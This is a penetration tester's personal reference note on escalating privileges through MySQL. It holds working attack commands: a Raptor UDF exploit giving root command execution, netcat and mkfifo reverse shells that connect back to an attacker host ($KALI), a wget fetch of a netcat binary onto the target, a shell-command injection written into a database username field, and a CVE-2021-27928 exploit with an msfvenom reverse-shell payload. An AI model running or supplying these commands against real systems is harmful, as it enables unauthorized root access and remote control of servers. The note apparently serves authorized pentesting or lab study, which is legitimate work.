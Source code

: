 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---
DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

![[Pasted image 20220401112428.png]]

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection
![[Pasted image 20220324115631.png|1000]]

![[Pasted image 20221115145406.png]]

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u $USER -p$PASSWORD
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

![[Pasted image 20220324115412.png]]

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```

![[Pasted image 20220324115509.png]]

#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```

